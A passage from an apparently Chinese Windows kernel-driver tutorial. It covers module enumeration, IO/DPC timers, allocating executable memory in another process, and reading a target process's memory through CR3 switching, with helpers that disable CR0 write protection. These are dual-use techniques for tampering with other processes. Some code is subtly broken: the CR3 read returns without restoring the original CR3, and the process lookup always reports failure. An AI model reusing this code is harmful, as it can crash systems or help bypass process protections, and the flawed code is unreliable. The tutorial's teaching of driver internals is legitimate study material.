}LDR_DATA_TABLE_ENTRY, *PLDR_DATA_TABLE_ENTRY;

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    Driver->DriverUnload = UnDriver;

    PLDR_DATA_TABLE_ENTRY pLdr = NULL;
    PLIST_ENTRY pListEntry = NULL;
    PLIST_ENTRY pCurrentListEntry = NULL;

    PLDR_DATA_TABLE_ENTRY pCurrentModule = NULL;
    pLdr = (PLDR_DATA_TABLE_ENTRY)Driver->DriverSection;
    pListEntry = pLdr->InLoadOrderLinks.Flink;
    pCurrentListEntry = pListEntry->Flink;

    // 判断是否结束
    while (pCurrentListEntry != pListEntry)
    {
        // 获取LDR_DATA_TABLE_ENTRY结构
        pCurrentModule = CONTAINING_RECORD(pCurrentListEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

        if (pCurrentModule->BaseDllName.Buffer != 0)
        {
            DbgPrint("模块名 = %wZ | 模块基址 = %p | 模块入口 = %p | 模块时间戳 = %d \n",
                pCurrentModule->BaseDllName,
                pCurrentModule->DllBase,
                pCurrentModule->EntryPoint,
                pCurrentModule->TimeDateStamp);
        }
        pCurrentListEntry = pCurrentListEntry->Flink;
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

编译这段程序，签名并运行，我们即可看到如下输出信息，此时当前自身驱动的详细参数都可以被输出；



通过使用上一篇文章`《内核字符串拷贝与比较》`中所介绍的的`RtlCompareUnicodeString`函数，还可用于对比与过滤特定结果，以此来实现通过驱动名返回驱动基址的功能。
```c
LONGLONG GetModuleBaseByName(PDRIVER_OBJECT pDriverObj, UNICODE_STRING ModuleName)
{
    PLDR_DATA_TABLE_ENTRY pLdr = NULL;
    PLIST_ENTRY pListEntry = NULL;
    PLIST_ENTRY pCurrentListEntry = NULL;

    PLDR_DATA_TABLE_ENTRY pCurrentModule = NULL;
    pLdr = (PLDR_DATA_TABLE_ENTRY)pDriverObj->DriverSection;
    pListEntry = pLdr->InLoadOrderLinks.Flink;
    pCurrentListEntry = pListEntry->Flink;

    while (pCurrentListEntry != pListEntry)
    {
        // 获取LDR_DATA_TABLE_ENTRY结构
        pCurrentModule = CONTAINING_RECORD(pCurrentListEntry, LDR_DATA_TABLE_ENTRY, InLoadOrderLinks);

        if (pCurrentModule->BaseDllName.Buffer != 0)
        {
            // 对比模块名
            if (RtlCompareUnicodeString(&pCurrentModule->BaseDllName, &ModuleName, TRUE) == 0)
            {
                return (LONGLONG)pCurrentModule->DllBase;
            }
        }
        pCurrentListEntry = pCurrentListEntry->Flink;
    }
    return 0;
}
```
上这段代码的使用也非常简单，通过传入一个`UNICODE_STRING`类型的模块名，即可获取到模块基址并返回，至于如何初始化`UNICODE_STRING`则在`《内核字符串转换方法》`中有详细的介绍，此处你只需要这样来写。
```c
NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    UNICODE_STRING unicode;

    // 获取WinDDK驱动基地址
    RtlUnicodeStringInit(&unicode, L"WinDDK.sys");
    LONGLONG winddk_address = GetModuleBaseByName(Driver, unicode);
    DbgPrint("WinDDK模块基址 = %p \n", winddk_address);

    // 获取ACPI驱动基地址
    RtlUnicodeStringInit(&unicode, L"ACPI.sys");
    LONGLONG acpi_address = GetModuleBaseByName(Driver, unicode);
    DbgPrint("ACPI模块基址 = %p \n", acpi_address);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行这段驱动程序，即可分别输出`WinDDK.sys`以及`ACPI.sys`两个驱动模块的基地址；



### 2.6 内核使用IO/DPC定时器

本章将继续探索驱动开发中的基础部分，定时器在内核中同样很常用，在内核中定时器可以使用两种，即IO定时器，以及DPC定时器，一般来说IO定时器是DDK中提供的一种，该定时器可以为间隔为N秒做定时，但如果要实现毫秒级别间隔，微秒级别间隔，就需要用到DPC定时器，如果是秒级定时其两者基本上无任何差异，本章将简单介绍`IO/DPC`这两种定时器的使用技巧。

首先来看IO定时器是如何使用的，IO定时器在使用上需要调用`IoInitializeTimer`函数对定时器进行初始化，但需要注意的是此函数每个设备对象只能调用一次，当初始化完成后用户可调用`IoStartTimer`让这个定时器运行，相反的调用`IoStopTimer`则用于关闭定时。
```c
// 初始化定时器
NTSTATUS IoInitializeTimer(
  [in]           PDEVICE_OBJECT         DeviceObject,  // 设备对象
  [in]           PIO_TIMER_ROUTINE      TimerRoutine,  // 回调例程
  [in, optional] __drv_aliasesMem PVOID Context        // 回调例程参数
);
// 启动定时器
VOID IoStartTimer(
  [in] PDEVICE_OBJECT DeviceObject             // 设备对象
);
// 关闭定时器
VOID IoStopTimer(
  [in] PDEVICE_OBJECT DeviceObject             // 设备对象
);
```
这里我们最关心的其实是`IoInitializeTimer`函数中的第二个参数`TimerRoutine`该参数用于传递一个自定义回调函数地址，其次由于定时器需要依附于一个设备，所以我们还需要调用`IoCreateDevice`创建一个新设备来让定时器线程使用，实现定时器代码如下所示。
```c
#include <ntifs.h>
#include <wdm.h>
#include <ntstrsafe.h>

LONG count = 0;

// 自定义定时器函数
VOID MyTimerProcess( __in struct _DEVICE_OBJECT *DeviceObject, __in_opt PVOID Context)
{
    InterlockedIncrement(&count);
    DbgPrint("定时器计数 = %d", count);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    // 关闭定时器
    IoStopTimer(driver->DeviceObject);

    // 删除设备
    IoDeleteDevice(driver->DeviceObject);

    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    NTSTATUS status = STATUS_UNSUCCESSFUL;

    // 定义设备名以及定时器
    UNICODE_STRING dev_name = RTL_CONSTANT_STRING(L"");
    PDEVICE_OBJECT dev;
    status = IoCreateDevice(Driver, 0, &dev_name, FILE_DEVICE_UNKNOWN, FILE_DEVICE_SECURE_OPEN, FALSE, &dev);
    if (!NT_SUCCESS(status))
    {
        return STATUS_UNSUCCESSFUL;
    }
    else
    {
        // 初始化定时器并开启
        IoInitializeTimer(dev, MyTimerProcess, NULL);
        IoStartTimer(dev);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译并运行这段代码，那么系统会每隔1秒执行一次`MyTimerProcess`这个自定义函数。



那么如何让其每隔三秒执行一次呢，其实很简单，通过`InterlockedDecrement`函数实现递减（每次调用递减1）当计数器变为0时`InterlockedCompareExchange`会让其继续变为3，以此循环即可完成三秒输出一次的效果。
```c
LONG count = 3;

// 自定义定时器函数
VOID MyTimerProcess(__in struct _DEVICE_OBJECT *DeviceObject, __in_opt PVOID Context)
{
    // 递减计数
    InterlockedDecrement(&count);

    // 当计数减到0之后继续变为3
    LONG preCount = InterlockedCompareExchange(&count, 3, 0);

    //每隔3秒计数器一个循环输出如下信息
    if (preCount == 0)
    {
        DbgPrint("[LyShark] 三秒过去了 \n");
    }
}
```

程序运行后，你会看到如下输出效果；



相比于`IO定时器`来说，`DPC定时器`则更加灵活，其可对任意间隔时间进行定时，DPC定时器内部使用定时器对象`KTIMER`，当对定时器设定一个时间间隔后，每隔这段时间操作系统会将一个`DPC例程`插入`DPC队列`。当操作系统读取`DPC队列`时，对应的`DPC例程`会被执行，此处所说的DPC例程同样表示回调函数。

DPC定时器中我们所需要使用的函数声明部分如下所示；
```c
// 初始化定时器对象 PKTIMER 指向调用方为其提供存储的计时器对象的指针
void KeInitializeTimer(
  [out] PKTIMER Timer    // 定时器指针
);

// 初始化DPC对象
void KeInitializeDpc(
  [out]          __drv_aliasesMem PRKDPC Dpc,
  [in]           PKDEFERRED_ROUTINE      DeferredRoutine,
  [in, optional] __drv_aliasesMem PVOID  DeferredContext
);

// 设置定时器
BOOLEAN KeSetTimer(
  [in, out]      PKTIMER       Timer,     // 定时器对象的指针
  [in]           LARGE_INTEGER DueTime,   // 时间间隔
  [in, optional] PKDPC         Dpc        // DPC对象
);

// 取消定时器
BOOLEAN KeCancelTimer(
  [in, out] PKTIMER unnamedParam1         // 定时器指针
);
```
注意；在调用`KeSetTimer`后，只会触发一次`DPC`例程。如果想周期的触发`DPC`例程，需要在`DPC例程`被触发后，再次调用`KeSetTimer`函数，应用DPC定时代码如下所示。
```c
#include <ntifs.h>
#include <wdm.h>
#include <ntstrsafe.h>

LONG count = 0;
KTIMER g_ktimer;
KDPC g_kdpc;

// 自定义定时器函数
VOID MyTimerProcess(__in struct _KDPC *Dpc,__in_opt PVOID DeferredContext,__in_opt PVOID SystemArgument1,__in_opt PVOID SystemArgument2)
{
    LARGE_INTEGER la_dutime = { 0 };
    la_dutime.QuadPart = 1000 * 1000 * -10;

    // 递增计数器
    InterlockedIncrement(&count);

    DbgPrint("DPC 定时执行 = %d", count);

    // 再次设置定时
    KeSetTimer(&g_ktimer, la_dutime, &g_kdpc);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    // 取消计数器
    KeCancelTimer(&g_ktimer);

    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    LARGE_INTEGER la_dutime = { 0 };

    // 每隔1秒执行一次
    la_dutime.QuadPart = 1000 * 1000 * -10;

    // 1.初始化定时器对象
    KeInitializeTimer(&g_ktimer);

    // 2.初始化DPC定时器
    KeInitializeDpc(&g_kdpc, MyTimerProcess, NULL);

    // 3.设置定时器,开始计时
    KeSetTimer(&g_ktimer, la_dutime, &g_kdpc);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译并运行这段程序，会发现其运行后的定时效果与IO定时器并无太大区别，但是DPC可以控制更精细，通过`la_dutime.QuadPart = 1000 * 1000 * -10`毫秒级别都可被控制。



最后扩展一个知识点，如何得到系统的当前详细时间，获得系统时间。在内核里通过`KeQuerySystemTime`获取的系统时间是标准时间`（GMT+0）`，转换成本地时间还需使用`RtlTimeToTimeFields`函数将其转换为`TIME_FIELDS`结构体格式。
```c
#include <ntifs.h>
#include <wdm.h>
#include <ntstrsafe.h>

/*
    typedef struct TIME_FIELDS
    {
    CSHORT Year;
    CSHORT Month;
    CSHORT Day;
    CSHORT Hour;
    CSHORT Minute;
    CSHORT Second;
    CSHORT Milliseconds;
    CSHORT Weekday;
    } TIME_FIELDS;
*/

// 内核中获取时间
VOID MyGetCurrentTime()
{
    LARGE_INTEGER CurrentTime;
    LARGE_INTEGER LocalTime;
    TIME_FIELDS   TimeFiled;
    
    // 得到格林威治时间
    KeQuerySystemTime(&CurrentTime);
    
    // 转成本地时间
    ExSystemTimeToLocalTime(&CurrentTime, &LocalTime);
    
    // 转换为TIME_FIELDS格式
    RtlTimeToTimeFields(&LocalTime, &TimeFiled);

    DbgPrint("[时间与日期] %4d年%2d月%2d日 %2d时%2d分%2d秒",
        TimeFiled.Year, TimeFiled.Month, TimeFiled.Day,
        TimeFiled.Hour, TimeFiled.Minute, TimeFiled.Second);
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    MyGetCurrentTime();

    DbgPrint("hello lyshark \n");

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行后即可在内核中得到当前系统的具体时间；



## 第三篇：内核驱动读写技术

本篇将深入讨论驱动开发内核驱动读写，主要涵盖内核开发中的一些关键技术。这些技术包括内核远程堆分配和销毁、CR3切换的实现、MDL的读写内存、R3和R0之间的通信、进程汇编和反汇编实现、四级页表的解析、浮点数的读写、多级偏移的读写、以及物理页的读写技术。同时，本文还会介绍这些技术在驱动保护方面的应用。

在本文中，我们将详细探讨每个主题，包括其实现方法、技术细节和关键步骤。我们将通过实例演示和代码示例，帮助读者更好地理解这些技术的实现方法。本文旨在为读者提供一个全面而深入的内核开发指南，帮助读者掌握内核驱动读写方面的核心技术，以及如何在驱动保护方面应用这些技术。

总之，本文将提供内核驱动读写方面的深入介绍和实例演示，帮助读者更好地掌握这些关键技术，并将重点介绍这些技术在驱动保护方面的应用。希望本文可以为读者提供有价值的内核开发知识，帮助读者成为一名出色的内核安全类程序员。

### 3.1 内核远程堆分配与销毁

在开始学习内核内存读写篇之前，我们先来实现一个简单的内存分配销毁堆的功能，在内核空间内用户依然可以动态的申请与销毁一段可控的堆空间，一般而言内核中提供了`ZwAllocateVirtualMemory`这个函数用于专门分配虚拟空间，而与之相对应的则是`ZwFreeVirtualMemory`此函数则用于销毁堆内存，当我们需要分配内核空间时往往需要切换到对端进程栈上再进行操作，接下来`LyShark`将从API开始介绍如何运用这两个函数实现内存分配与使用，并以此来作为驱动读写篇的入门知识。

首先以内存分配为例`ZwAllocateVirtualMemory()`函数，该系列函数在`ntifs.h`头文件内，且如果需要使用则最好提前在程序头部进行声明，该函数的微软官方定义如下所示；
```c
NTSYSAPI NTSTATUS ZwAllocateVirtualMemory(
  [in]      HANDLE    ProcessHandle,           // 进程句柄
  [in, out] PVOID     *BaseAddress,            // 指向将接收已分配页面区域基址的变量的指针
  [in]      ULONG_PTR ZeroBits,                // 节视图基址中必须为零的高顺序地址位数
  [in, out] PSIZE_T   RegionSize,              // 指向将接收已分配页面区域的实际大小
  [in]      ULONG     AllocationType,          // 包含指定要执行的分配类型的标志的位掩码
  [in]      ULONG     Protect                  // 包含页面保护标志的位掩码
);
```

参数`ProcessHandle`用于传入一个进程句柄此处我们可以通过`NtCurrentProcess()`获取到当前自身进程的句柄。

参数`BaseAddress`则用于接收分配堆地址的首地址，此处指向将接收已分配页面区域基址的变量的指针。 

参数`RegionSize`则用于指定需要分配的内存空间大小，此参数的初始值指定区域的大小（以字节为单位）并向上舍入到下一个主机页大小边界。

参数`AllocationType`用于指定分配内存的属性，通常我们会用到的只有两种`MEM_COMMIT`指定为提交类型，`MEM_PHYSICAL`则用于分配物理内存，此标志仅用于地址窗口扩展AWE内存。 如果设置了`MEM_PHYSICAL`则还必须设置`MEM_RESERVE`不能设置其他标志，并且必须将保护设置为`PAGE_READWRITE`。

参数`Protect`用于设置当前分批堆的保护属性，通常当我们需要分配一段可执行指令的内存空间时会使用`PAGE_EXECUTE_READWRITE`，如果无执行需求则推荐使用`PAGE_READWRITE`属性。

在对特定进程分配堆时第一步就是要切入到该进程的进程栈中，此时可通过`KeStackAttachProcess()`切换到进程栈，于此对应的是`KeUnstackDetachProcess()`脱离进程栈，这两个函数的具体定义如下；
```c
// 附加到进程栈
void KeStackAttachProcess(
        PRKPROCESS   PROCESS,      // 传入EProcess结构
  [out] PRKAPC_STATE ApcState      // 指向KAPC_STATE结构的不透明指针
);
// 接触附加
void KeUnstackDetachProcess(
  [in] PRKAPC_STATE ApcState       // 指向KAPC_STATE结构的不透明指针
);
```
此处如果需要附加进程栈则必须提供该进程的`PRKPROCESS`也就是`EProcess`结构，此结构可通过`PsLookupProcessByProcessId()`获取到，该函数接收一个进程PID并将此PID转为`EProcess`结构，函数定义如下；
```c
NTSTATUS PsLookupProcessByProcessId(
  [in]  HANDLE    ProcessId,          // 进程PID
  [out] PEPROCESS *Process            // 输出EP结构
);
```
基本的函数介绍完了，那么这段代码应该不难理解了，如下代码中需要注意一点，参数`OUT PVOID Buffer`用于输出堆地址而不是输入地址。
```c
#include <ntifs.h>
#include <windef.h>

// 定义声明
NTSTATUS ZwAllocateVirtualMemory(
    __in HANDLE  ProcessHandle,
    __inout PVOID  *BaseAddress,
    __in ULONG_PTR  ZeroBits,
    __inout PSIZE_T  RegionSize,
    __in ULONG  AllocationType,
    __in ULONG  Protect
);

// 分配内存空间
NTSTATUS AllocMemory(IN ULONG ProcessPid, IN SIZE_T Length, OUT PVOID Buffer)
{
    NTSTATUS Status = STATUS_SUCCESS;
    PEPROCESS pEProcess = NULL;
    KAPC_STATE ApcState = { 0 };
    PVOID BaseAddress = NULL;

    // 通过进程PID得到进程EProcess
    Status = PsLookupProcessByProcessId((HANDLE)ProcessPid, &pEProcess);
    if (!NT_SUCCESS(Status) && !MmIsAddressValid(pEProcess))
    {
        return STATUS_UNSUCCESSFUL;
    }

    // 验证内存可读
    if (!MmIsAddressValid(pEProcess))
    {
        return STATUS_UNSUCCESSFUL;
    }
    __try
    {
        // 附加到进程栈
        KeStackAttachProcess(pEProcess, &ApcState);

        // 分配内存
        Status = ZwAllocateVirtualMemory(NtCurrentProcess(), &BaseAddress, 0, &Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        RtlZeroMemory(BaseAddress, Length);

        // 返回内存地址
        *(PVOID*)Buffer = BaseAddress;

        // 脱离进程栈
        KeUnstackDetachProcess(&ApcState);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        KeUnstackDetachProcess(&ApcState);
        Status = STATUS_UNSUCCESSFUL;
    }

    ObDereferenceObject(pEProcess);
    return Status;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    DWORD process_id = 4160;
    DWORD create_size = 1024;
    DWORD64 ref_address = 0;

    NTSTATUS Status = AllocMemory(process_id, create_size, &ref_address);

    DbgPrint("对端进程: %d \n", process_id);
    DbgPrint("分配长度: %d \n", create_size);
    DbgPrint("分配的内核堆基址: %p \n", ref_address);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

运行如上代码片段，则会在进程`PID=4160`中开辟一段堆空间，输出效果如下；



与创建堆相对`ZwFreeVirtualMemory()`则用于销毁一个堆，其微软定义如下所示；
```c
NTSYSAPI NTSTATUS ZwFreeVirtualMemory(
  [in]      HANDLE  ProcessHandle,    // 进程句柄
  [in, out] PVOID   *BaseAddress,     // 堆基址
  [in, out] PSIZE_T RegionSize,       // 销毁长度
  [in]      ULONG   FreeType          // 释放类型
);
```
相对于创建来说，销毁堆则必须传入堆空间`BaseAddress`基址，以及堆空间的`RegionSize`长度，需要格外注意`FreeType`参数，这是一个位掩码，其中包含描述`ZwFreeVirtualMemory`将为页面指定区域执行的任意操作类型。如果传入`MEM_DECOMMIT`则将取消提交页面的指定区域，页面进入保留状态。而如果设置为`MEM_RELEASE`则堆地址将被立即释放。

销毁堆空间`FreeMemory()`的完整代码如下所示，销毁是我们使用`MEM_RELEASE`参数即立即销毁。
```c
#include <ntifs.h>
#include <windef.h>

// 申请堆
NTSTATUS ZwAllocateVirtualMemory(
    __in HANDLE  ProcessHandle,
    __inout PVOID  *BaseAddress,
    __in ULONG_PTR  ZeroBits,
    __inout PSIZE_T  RegionSize,
    __in ULONG  AllocationType,
    __in ULONG  Protect
);

// 销毁堆
NTSYSAPI NTSTATUS ZwFreeVirtualMemory(
    __in      HANDLE  ProcessHandle,
    __inout PVOID   *BaseAddress,
    __inout PSIZE_T RegionSize,
    __in      ULONG   FreeType
);

// 分配内存空间
NTSTATUS AllocMemory(IN ULONG ProcessPid, IN SIZE_T Length, OUT PVOID Buffer)
{
    NTSTATUS Status = STATUS_SUCCESS;
    PEPROCESS pEProcess = NULL;
    KAPC_STATE ApcState = { 0 };
    PVOID BaseAddress = NULL;

    // 通过进程PID得到进程EProcess
    Status = PsLookupProcessByProcessId((HANDLE)ProcessPid, &pEProcess);
    if (!NT_SUCCESS(Status) && !MmIsAddressValid(pEProcess))
    {
        return STATUS_UNSUCCESSFUL;
    }

    // 验证内存可读
    if (!MmIsAddressValid(pEProcess))
    {
        return STATUS_UNSUCCESSFUL;
    }
    __try
    {
        // 附加到进程栈
        KeStackAttachProcess(pEProcess, &ApcState);

        // 分配内存
        Status = ZwAllocateVirtualMemory(NtCurrentProcess(), &BaseAddress, 0, &Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
        RtlZeroMemory(BaseAddress, Length);

        // 返回内存地址
        *(PVOID*)Buffer = BaseAddress;

        // 脱离进程栈
        KeUnstackDetachProcess(&ApcState);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        KeUnstackDetachProcess(&ApcState);
        Status = STATUS_UNSUCCESSFUL;
    }

    ObDereferenceObject(pEProcess);
    return Status;
}

// 注销内存空间
NTSTATUS FreeMemory(IN ULONG ProcessPid, IN SIZE_T Length, IN PVOID BaseAddress)
{
    NTSTATUS Status = STATUS_SUCCESS;
    PEPROCESS pEProcess = NULL;
    KAPC_STATE ApcState = { 0 };

    Status = PsLookupProcessByProcessId((HANDLE)ProcessPid, &pEProcess);
    if (!NT_SUCCESS(Status) && !MmIsAddressValid(pEProcess))
    {
    return STATUS_UNSUCCESSFUL;
    }

    if (!MmIsAddressValid(pEProcess))
    {
        return STATUS_UNSUCCESSFUL;
    }

    __try
    {
        // 附加到进程栈
        KeStackAttachProcess(pEProcess, &ApcState);

        // 释放内存
        Status = ZwFreeVirtualMemory(NtCurrentProcess(), &BaseAddress, &Length, MEM_RELEASE);

        // 脱离进程栈
        KeUnstackDetachProcess(&ApcState);
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        KeUnstackDetachProcess(&ApcState);
        Status = STATUS_UNSUCCESSFUL;
    }

    ObDereferenceObject(pEProcess);
    return Status;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint(("hello lyshark \n"));

    DWORD process_id = 4160;
    DWORD create_size = 1024;
    DWORD64 ref_address = 0;

    NTSTATUS Status = AllocMemory(process_id, create_size, &ref_address);

    DbgPrint("对端进程: %d \n", process_id);
    DbgPrint("分配长度: %d \n", create_size);
    DbgPrint("分配的内核堆基址: %p \n", ref_address);

    Status = FreeMemory(process_id, create_size, ref_address);
    DbgPrint("销毁堆地址: %p \n", ref_address);

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```
编译并运行如上这段代码，代码会首先调用`AllocMemory()`函数实现分配堆，然后调用`FreeMemory()`函数销毁堆，并输出销毁地址，如下图所示；



### 3.2 内核CR3切换读写内存

CR3是一种控制寄存器，它是CPU中的一个专用寄存器，用于存储当前进程的页目录表的物理地址。在x86体系结构中，虚拟地址的翻译过程需要借助页表来完成。页表是由页目录表和页表组成的，页目录表存储了页表的物理地址，而页表存储了实际的物理页框地址。因此，页目录表的物理地址是虚拟地址翻译的关键之一。

在操作系统中，每个进程都有自己的地址空间，地址空间中包含了进程的代码、数据和堆栈等信息。为了实现进程间的隔离和保护，操作系统会为每个进程分配独立的地址空间。在这个过程中，操作系统会将每个进程的页目录表的物理地址存储在它自己的CR3寄存器中。当进程切换时，操作系统会修改CR3寄存器的值，从而让CPU使用新的页目录表来完成虚拟地址的翻译。

利用CR3寄存器可以实现强制读写特定进程的内存地址，这种操作需要一定的权限和技术知识。在实际应用中，这种操作主要用于调试和漏洞挖掘等方面。同时，由于CR3寄存器的读写属于有痕读写，因此许多驱动保护都会禁止或者修改CR3寄存器的值，以提高系统的安全性，此时CR3读写就失效了，当然如果能找到CR3的正确地址，此方式也是靠谱的一种读写机制。

在读写进程的时候，我们需要先找到目标进程的`PEPROCESS`结构。PEPROCESS结构是`Windows`操作系统中描述进程的一个重要数据结构，它包含了进程的各种属性和状态信息，如进程ID、进程优先级、内存布局等等。对于想要读写目标进程的内存，我们需要获得目标进程的PEPROCESS结构，才能进一步访问和操作进程的内存。

每个进程都有一个唯一的进程`ID（PID）`，我们可以通过遍历系统中所有进程的方式来查找目标进程。对于每个进程，我们可以通过读取进程对象的名称来判断它是否是目标进程。如果找到了目标进程，我们就可以从其进程对象中获得指向`PEPROCESS`结构的指针。

具体的查找过程可以分为以下几个步骤：

 - 遍历系统中所有进程，获取每个进程的句柄（handle）和进程对象（process object）。
 - 从进程对象中获取进程的名称，并与目标进程的名称进行比较。
 - 如果找到了目标进程，从进程对象中获取指向PEPROCESS结构的指针。

需要注意的是，查找进程的过程可能会受到安全策略和权限的限制，因此需要在合适的上下文中进行。在实际应用中，需要根据具体的场景和要求进行合理的安全措施和权限管理。
```c
#include <ntifs.h>
#include <windef.h>
#include <intrin.h>

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI CHAR* PsGetProcessImageFileName(PEPROCESS Process);

// 定义全局EProcess结构
PEPROCESS Global_Peprocess = NULL;

// 根据进程名获得EPROCESS结构
NTSTATUS GetProcessObjectByName(char *name)
{
    NTSTATUS Status = STATUS_UNSUCCESSFUL;
    SIZE_T i;

    __try
    {
        for (i = 100; i<20000; i += 4)
        {
            NTSTATUS st;
            PEPROCESS ep;
            st = PsLookupProcessByProcessId((HANDLE)i, &ep);
            if (NT_SUCCESS(st))
            {
                char *pn = PsGetProcessImageFileName(ep);
                if (_stricmp(pn, name) == 0)
                {
                    Global_Peprocess = ep;
                }
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER)
    {
        return Status;
    }
    return Status;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    NTSTATUS nt = GetProcessObjectByName("Tutorial-i386.exe");

    if (NT_SUCCESS(nt))
    {
        DbgPrint("[+] eprocess = %x \n", Global_Peprocess);
    }

    Driver->DriverUnload = UnDriver;
    return STATUS_SUCCESS;
}
```

以打开`Tutorial-i386.exe`为例，打开后即可返回他的`Proces`，当然也可以直接传入进程PID同样可以得到进程`Process`结构地址。
```c
// 根据PID打开进程
PEPROCESS Peprocess = NULL;
DWORD PID = 6672;
NTSTATUS nt = PsLookupProcessByProcessId((HANDLE)PID, &Peprocess);
```

通过CR3读取内存`Tutorial-i386.exe`里面的`0x0009EDC8`这段内存，读出长度是4字节，核心读取函数`CR3_ReadProcessMemory`其实现原理可概括为以下4步；

 - 首先，函数的输入参数包括目标进程的`PEPROCESS`结构指针`Process`、要读取的内存地址`Address`、读取的字节数`Length`以及输出缓冲区的指针`Buffer`。函数的返回值为布尔类型，表示读取操作是否成功。

 - 接着，函数使用了`CheckAddressVal`函数获取了目标进程页目录表的物理地址，并将其保存在变量`pDTB`中。如果获取页目录表的物理地址失败，函数直接返回FALSE，表示读取操作失败。

 - 接下来，函数使用了汇编指令`_disable()`来禁用中断，然后调用`__readcr3()`函数获取当前系统的CR3寄存器的值，保存在变量`OldCr3`中。接着，函数使用`__writecr3()`函数将CR3寄存器的值设置为目标进程的页目录表的物理地址pDTB。这样就切换了当前系统的地址空间到目标进程的地址空间。

 - 然后，函数使用了`MmIsAddressValid()`函数来判断要读取的内存地址是否可访问。如果可访问，函数就调用`RtlCopyMemory()`函数将目标进程内存中的数据复制到输出缓冲区中。函数最后打印了读入数据的信息，并返回TRUE表示读取操作成功。如果要读取的内存地址不可访问，函数就直接返回FALSE表示读取操作失败。

最后，函数使用了汇编指令`_enable()`来恢复中断，并使用`__writecr3()`函数将CR3寄存器的值设置为原来的值`OldCr3`，从而恢复了当前系统的地址空间。

需要注意的是，这段代码仅仅实现了对目标进程内存的读取操作，如果需要进行写操作，还需要在适当的情况下使用类似的方式切换地址空间，并使用相关的内存操作函数进行写操作。另外，这种方式的内存读取操作可能会受到驱动保护的限制，需要谨慎使用。
```c
#include <ntifs.h>
#include <windef.h>
#include <intrin.h>

#define DIRECTORY_TABLE_BASE 0x028

#pragma  intrinsic(_disable)
#pragma  intrinsic(_enable)

NTKERNELAPI NTSTATUS PsLookupProcessByProcessId(HANDLE ProcessId, PEPROCESS *Process);
NTKERNELAPI CHAR* PsGetProcessImageFileName(PEPROCESS Process);

// 关闭写保护
KIRQL Open()
{
    KIRQL irql = KeRaiseIrqlToDpcLevel();
    UINT64 cr0 = __readcr0();
    cr0 &= 0xfffffffffffeffff;
    __writecr0(cr0);
    _disable();
    return irql;
}

// 开启写保护
void Close(KIRQL irql)
{
    UINT64 cr0 = __readcr0();
    cr0 |= 0x10000;
    _enable();
    __writecr0(cr0);
    KeLowerIrql(irql);
}

// 检查内存
ULONG64 CheckAddressVal(PVOID p)
{
    if (MmIsAddressValid(p) == FALSE)
        return 0;
    return *(PULONG64)p;
}

// CR3 寄存器读内存
BOOLEAN CR3_ReadProcessMemory(IN PEPROCESS Process, IN PVOID Address, IN UINT32 Length, OUT PVOID Buffer)
{
    ULONG64 pDTB = 0, OldCr3 = 0, vAddr = 0;
    pDTB = CheckAddressVal((UCHAR*)Process + DIRECTORY_TABLE_BASE);
    if (pDTB == 0)
    {
        return FALSE;
    }

    _disable();
    OldCr3 = __readcr3();
    __writecr3(pDTB);
    _enable();

    if (MmIsAddressValid(Address))
    {
        RtlCopyMemory(Buffer, Address, Length);
        DbgPrint("读入数据: %ld", *(PDWORD)Buffer);
        return TRUE;
    }

    _disable();
    __writecr3(OldCr3);
    _enable();
    return FALSE;
}

VOID UnDriver(PDRIVER_OBJECT driver)
{
    DbgPrint(("Uninstall Driver Is OK \n"));
}

NTSTATUS DriverEntry(IN PDRIVER_OBJECT Driver, PUNICODE_STRING RegistryPath)
{
    DbgPrint("hello lyshark \n");

    // 根据PID打开进程
    PEPROCESS Peprocess = NULL;
    DWORD PID = 6672;
    NTSTATUS nt = PsLookupProcessByProcessId((HANDLE)PID, &Peprocess);

    DWORD buffer = 0;

